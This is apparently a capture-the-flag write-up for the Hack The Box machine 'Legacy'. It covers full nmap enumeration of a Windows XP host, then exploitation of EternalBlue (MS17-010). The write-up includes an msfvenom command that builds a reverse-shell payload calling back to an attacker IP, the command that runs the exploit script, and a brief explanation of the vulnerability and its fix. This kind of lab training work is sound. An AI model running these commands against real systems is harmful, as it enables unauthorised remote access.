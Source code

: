 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Thu Jul  7 18:51:17 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/7%OT=135%CT=1%CU=40757%PV=Y%DS=2%DC=T%G=Y%TM=62C763A
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S%TS=
OS:0)OPS(O1=M539NW0NNT00NNS%O2=M539NW0NNT00NNS%O3=M539NW0NNT00%O4=M539NW0NN
OS:T00NNS%O5=M539NW0NNT00NNS%O6=M539NNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4
OS:=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M539NW0NNS%CC=N%Q=)T1(R
OS:=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=%
OS:RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M539NW0NNT00NNS%RD=0%Q=)
OS:T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=
OS:N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G%
OS:RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:60:72 (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-07-13T03:49:51+03:00

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   73.78 ms 10.10.14.1
2   73.83 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  7 18:52:21 2022 -- 1 IP address (1 host up) scanned in 64.24 seconds
```
**Smb vulnerabilities scan:** [nmap -sS -p139,445 10.10.10.4 -v --script vuln]:

![smb_scan](images/smb_vuln_scan_legacy.png)

**Initial Shell Vulnerability Exploited: EternalBlue**\
With the results of the nmap vulnerabilities scan, it seems like the machine is vulnerable to [MS017-10](https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py) (EternalBlue Exploit).

I first used msfvenom to generate a payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443
EXITFUNC=thread -f exe -a x86 --platform windows -o reverseshell.exe
```
And then ran the exploit:
```bash
python send_and_execute.py 10.10.10.4 revshell.exe
```

**Vulnerability Explanation:**\
The EternalBlue exploit works by taking advantage of SMBv1 vulnerabilities present in older versions of
Microsoft operating systems.\
The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted
packets from malicious attackers. All the attacker needs to do is send a maliciously-crafted packet to the
target server, and the malware propagates and a cyberattack ensues.\
**Vulnerability Fix:**\
Microsoft has released a set of patches for Windows Vista, 2008, 7, 2008 R2, 2012, 8.1, RT 8.1, 2012 R2,
10, and 2016. Microsoft has also released emergency patches for Windows operating systems that are no
longer supported, including Windows XP, 2003, and 8.\
In this scenario, the machine uses Windows XP, and for unsupported Windows operating systems, e.g.
Windows XP, Microsoft recommends that users discontinue the use of SMBv1.

**Initial Shell Screenshot:**\
<img src="images/legacy_initialshell.png" alt="initial_shell_poc" width="500" height="150"/>
